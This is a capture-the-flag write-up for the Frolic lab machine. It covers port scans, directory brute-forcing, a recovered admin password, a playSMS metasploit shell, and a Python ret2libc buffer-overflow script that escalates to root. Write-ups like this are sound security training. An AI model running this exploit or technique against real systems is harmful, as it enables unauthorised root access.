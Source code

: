 # Frolic (`10.10.10.111`)

## Summary

I find a vulnerable application `playsms`, use a metasploit module to pop a shell as `www-data`, and write a ROP exploit to get `root`.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports frolic.htb
Host is up, received user-set (0.054s latency).
Scanned at 2020-10-26 17:02:56 EDT for 114s
Not shown: 65530 closed ports
Reason: 65530 resets
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3HUqxhCShF9I6uBmGCX6yXz56Iibv7WW2fBKsKA9yVqmoupPdDKac1U3/PIioRNHkPC03r5ZXsqfALwjIWEits7toO4K+9VSFU6d0qhmpUZW3WwiyxdcPxmTQLpU8InXZpMOwjpGJTTwqxsMIxNdPk0FP/MtqEzQI45MOr7IQOGcEAsmcJ1Cy3aRDAnp77NBWYA316l7Xb8WA/aWoHEyS/6Qf3XzeARf0yZ6YwYg4TTsaeQtfRr4HWZBDs7fLrrWUzN0ivb9izy9YgqrOJ5ZKQI4A1yn0CxZNsiweIT8gopM1KrfinPGiKbGbSNVvTX2dHYyISh6Y2bp1D5vum6SH
|   256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDSjEcHeA/VoBi4PaoyxwM1Rx1vpoQofoJPYTxBuQLXRujf3gqn491cWpd2CDh2mF/3w2kEGsrWRwqD4LZmz+Sk=
|   256 21:cf:16:6d:82:a4:30:c3:c6:9c:d7:38:ba:b5:02:b0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINVT+d0lX5zwXTOY4h4+MfU6kt/q3EmGVWIXnMsomQq5
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1880/tcp open  http        syn-ack ttl 63 Node.js (Express middleware)
|_http-favicon: Unknown favicon MD5: 818DD6AFD0D0F9433B21774F89665EEA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Node-RED
9999/tcp open  http        syn-ack ttl 63 nginx 1.10.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
```

### Port 1880

![](img/2020-10-26-17-18-00.png)

### Port 9999

```bash
$ gobuster dir -u http://10.10.10.111:9999/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -z -k -l -x "txt,html,php,asp,aspx,jsp"
...
/.hta (Status: 403) [Size: 178]
/.hta.asp (Status: 403) [Size: 178]
/.hta.aspx (Status: 403) [Size: 178]
/.hta.jsp (Status: 403) [Size: 178]
/.hta.txt (Status: 403) [Size: 178]
/.hta.html (Status: 403) [Size: 178]
/.htaccess (Status: 403) [Size: 178]
/.htaccess.txt (Status: 403) [Size: 178]
/.htaccess.html (Status: 403) [Size: 178]
/.htaccess.asp (Status: 403) [Size: 178]
/.htaccess.aspx (Status: 403) [Size: 178]
/.htaccess.jsp (Status: 403) [Size: 178]
/.htpasswd (Status: 403) [Size: 178]
/.htpasswd.aspx (Status: 403) [Size: 178]
/.htpasswd.jsp (Status: 403) [Size: 178]
/.htpasswd.txt (Status: 403) [Size: 178]
/.htpasswd.html (Status: 403) [Size: 178]
/.htpasswd.asp (Status: 403) [Size: 178]
/admin (Status: 301) [Size: 194]
/backup (Status: 301) [Size: 194]
/cgi-bin/.html (Status: 403) [Size: 178]
/dev (Status: 301) [Size: 194]
/test (Status: 301) [Size: 194]
```

![](img/2020-10-26-17-06-52.png)

![](img/2020-10-26-17-07-10.png)

![](img/2020-10-26-17-07-23.png)

![](img/2020-10-26-17-08-19.png)

![](img/2020-10-26-17-09-16.png)

`admin:superduperlooperpassword_lol` works and redirects me to this page:

![](img/2020-10-26-17-09-53.png)

![](img/2020-10-26-17-43-01.png)

![](img/2020-10-26-17-46-16.png)

![](img/2020-10-26-17-46-35.png)

## Reverse Shell

Guessed this exploit would work -- and it does.

![](img/2020-10-30-16-39-57.png)

## Upgrading Shell

![](img/2020-10-30-16-41-30.png)

## User Proof

Readable as `www-data`.

![](img/2020-10-30-16-42-11.png)

## Privilege Escalation

ROP time.

![](img/2020-10-30-17-03-59.png)

![](img/2020-10-30-17-04-35.png)

I pull the binary to my host to work on developing an exploit.

![](img/2020-10-30-17-04-08.png)

Find offset.

![](img/2020-10-30-17-03-13.png)

![](img/2020-10-30-17-05-48.png)

![](img/2020-10-30-17-28-29.png)

The offset is 52 bytes. 

The `libc` address is: `0xb7e19000`.

![](img/2020-11-01-19-31-25.png)

The `system` offset in `libc` is: `0x0003ada0`.

![](img/2020-11-01-19-32-04.png)

The `exit` offset in `libc` is: `0x0002e9d0`

![](img/2020-11-01-19-33-50.png)

And the offset of `/bin/sh` in `libc` is: `0x0015ba0b`.

![](img/2020-11-01-20-25-30.png)

```python
#!/bin/env python

from struct import pack

padding = "A" * 52

libc = 0xb7e19000
system = pack('<I', libc + 0x0003ada0)
exit = pack('<I', libc + 0x0002e9d0)
binsh = pack('<I', libc + 0x0015ba0b)

payload = padding + system + exit + binsh
print payload
```

I compose the exploit, move it over to the target and run it. I am now `root`.

![](img/2020-11-01-20-42-10.png)